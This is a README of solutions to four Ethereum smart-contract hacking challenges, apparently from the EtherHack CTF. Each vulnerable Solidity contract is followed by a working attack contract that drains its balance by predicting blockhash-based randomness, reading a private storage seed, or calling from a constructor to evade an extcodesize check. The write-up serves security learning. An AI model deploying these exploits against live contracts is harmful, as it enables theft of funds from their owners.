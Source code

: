 # ether-hack

### My Ether Hack Solutions

# Challenge 1 : Azino 777

```Solidity
pragma solidity ^0.4.16;

contract Azino777 {

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 1
---
We will win this lottery if generated random number and bet both are the same then we will win this, for this make contract and calculate first your `rand` function and get the return value and make the spin call with `0.01 ether` and `100` as max, Here's Your Full Code.

```solidity
contract Attack {
    Azino777 azino = Azino777("Azino777_ADDRESS");
    uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;

  function solve(uint256 max) public payable {
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));
    uint256 bet =  uint256((uint256(hashVal) / factor)) % max;
    azino.spin.value(msg.value)(bet);
  }

  function withdraw() public {
       msg.sender.transfer(address(this).balance);
  }

   function() public payable {}

}
```

# Challenge 2: Private Ryan

```solidity
pragma solidity ^0.4.16;

contract PrivateRyan {
  uint private seed = 1;

  function PrivateRyan() {
    seed = rand(256);
  }

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    seed = rand(256);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 2
---
Same as the last one but here we need seed which is private deploy the Private ryan contact and whichever network you are one use web3.js lib 
```
await web3.eth.getStorageAt("CONTRACT_ADDRESS",0);
```
it will give you hex value convert it into the dec and then rest is simple here is full code replace value.

```solidity
contract Attack {
    PrivateRyan privateRyan = PrivateRyan("PrivateRyan_ADDRESS");
     uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
     uint256 seed = YOUR_SEED_IN_DEC;


    function rand(uint256 max) public payable{
    uint256 factor = FACTOR * 100 / max;
    
   
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    uint256 bet=   uint256((uint256(hashVal) / factor)) % max;

    privateRyan.spin.value(msg.value)(bet);
    }

    function withdraw() public {
        msg.sender.transfer(this.balance);
    }

      function() public payable {}
}
```
# Challenge 3: WheelOfFortune

```solidity
pragma solidity ^0.4.16;

contract WheelOfFortune {
  Game[] public games;

  struct Game {
      address player;
      uint id;
      uint bet;
      uint blockNumber;
  }

  function spin(uint256 _bet) public payable {
    require(msg.value >= 0.01 ether);
    uint gameId = games.length;
    games.length++;
    games[gameId].id = gameId;
    games[gameId].player = msg.sender;
    games[gameId].bet = _bet;
    games[gameId].blockNumber = block.number;
    if (gameId > 0) {
      uint lastGameId = gameId - 1;
      uint num = rand(block.blockhash(games[lastGameId].blockNumber), 100);
      if(num == games[lastGameId].bet) {
          games[lastGameId].player.transfer(this.balance);
      }
    }
  }

  function rand(bytes32 hash, uint max) pure private returns (uint256 result){
    return uint256(keccak256(hash)) % max;
  }

  function() public payable {}
}
```

Solution : Challenge 3
---

Take look at the contract and you will see `rand(block.blockhash(games[lastGameId].blockNumber), 100)` it will become `uint256(keccak256(bytes32(0))) % max` you have to wait for the `256` Block to make next call [EVM Limitations](https://docs.soliditylang.org/en/v0.4.21/units-and-global-variables.html#block-and-transaction-properties), in this case which would be 47.

# Challenge 4 : CallMeMaybe

```solidity
pragma solidity ^0.4.16;

contract CallMeMaybe {
    modifier CallMeMaybe() {
      uint32 size;
      address _addr = msg.sender;
      assembly {
        size := extcodesize(_addr)
      }
      if (size > 0) {
          revert();
      }
      _;
    }

    function HereIsMyNumber() CallMeMaybe {
        if(tx.origin == msg.sender) {
            revert();
        } else {
            msg.sender.transfer(this.balance);
        }
    }

    function() payable {}
}
```

Solution : Challenge 4
---
Here's the modifier if `extcodesize` codesize check for the size of the code and if it `> 0` then it will revert remember at the construction time **contract does not source code at the construction time** so here's the Explotit code.

```solidity
pragma solidity ^0.4.16;
contract Attack {

    function Attack() public payable {
        CallMeMaybe callme = CallMeMaybe("CallMeMaybe_ADDRESS");
        callme.HereIsMyNumber();
    }

    function withdraw() public {
        msg.sender.transfer(address(this).balance);
    }

    function() payable {}
}
```


